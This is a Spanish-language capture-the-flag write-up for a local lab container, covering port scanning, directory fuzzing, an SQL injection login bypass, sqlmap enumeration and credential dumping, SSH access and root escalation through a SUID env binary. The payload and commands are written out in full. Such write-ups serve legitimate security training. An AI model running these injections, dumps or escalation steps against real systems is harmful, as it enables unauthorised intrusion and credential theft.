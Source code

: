 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh injection.tar
```

![Pasted image 20250129175253](https://github.com/user-attachments/assets/14ce4f40-ab9f-4462-81e3-6608d97b908b)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250129180719](https://github.com/user-attachments/assets/aef8dcf1-081e-46ae-a31b-d09a13eb097d)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250129182251](https://github.com/user-attachments/assets/b2a02122-17b1-43ea-8239-8bdced77a53f)

Nos metemos en la web:

![Pasted image 20250129182354](https://github.com/user-attachments/assets/4669e891-bed9-4e8b-af23-0ae0a6db1750)

Metemos esta inyección en el usuario (el password lo que queramos):

```Bash
'or 1=1 -- -
```

![Pasted image 20250129182930](https://github.com/user-attachments/assets/4e13331a-7108-48f7-97eb-34c9f7a79800)

![Pasted image 20250129183019](https://github.com/user-attachments/assets/5c6c608c-501b-42fc-bdff-227d442d0773)

Nos da usuario y contraseña
Dylan: KJSDFG789FGSDF78

Más formas de conseguirlo:

**Inyección sqlmap**

```Bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```

![Pasted image 20250129183525](https://github.com/user-attachments/assets/b296691d-128e-4395-b554-87bc64bd7b79)

![Pasted image 20250129183540](https://github.com/user-attachments/assets/4285df20-25d5-4867-8f6b-ef75ef06a3cc)

Ahora usamos el siguiente comando para acceder a ``register``:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch
```

![Pasted image 20250129183601](https://github.com/user-attachments/assets/e9f8150f-6e8a-4311-b949-b07e81064e30)

![Pasted image 20250129183616](https://github.com/user-attachments/assets/e3f2a992-8ab5-4fdc-880a-88b86f1a70f8)

Accedemos a ``users`` y listamos las columnas:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch
```

![Pasted image 20250129183659](https://github.com/user-attachments/assets/343da861-7a0e-4fdd-b16f-83fbc6943dd9)

![Pasted image 20250129183713](https://github.com/user-attachments/assets/1fad748e-83c3-4bd5-bbe0-3ef393bd9924)

Por último, listamos las dos columnas que hay: passwd y usernames, y tenemos credenciales:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,username --dump --batch
```

![Pasted image 20250129183736](https://github.com/user-attachments/assets/01cec31e-3af0-47ad-af57-637f48f2fb66)

![Pasted image 20250129183748](https://github.com/user-attachments/assets/e67d540c-137b-44bf-88d6-88fc5682969d)

Nos da usuario y contraseña
Dylan: KJSDFG789FGSDF78

Nos conectamos con **SSH**:

```Bash
ssh dylan@172.17.0.2
```

![Pasted image 20250129183951](https://github.com/user-attachments/assets/623db47c-26dd-43f3-9f5f-98125d00cd79)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129184025](https://github.com/user-attachments/assets/c7047a32-1b6f-494b-bfcc-6699b09fbcea)

```Bash
find / -perm -4000 2>/dev/null
```

![Pasted image 20250129184114](https://github.com/user-attachments/assets/37a05325-bf9c-4d47-b4a3-88fb9a59d94e)

```Bash
/usr/bin/env /bin/bash -p
```

![Pasted image 20250129184315](https://github.com/user-attachments/assets/a43c5967-15fd-4ae8-b998-52d8798a0b91)

```Bash
whoami
```

![Pasted image 20250129184339](https://github.com/user-attachments/assets/666bfd1c-e2f1-43a4-bced-c9080bab84f0)
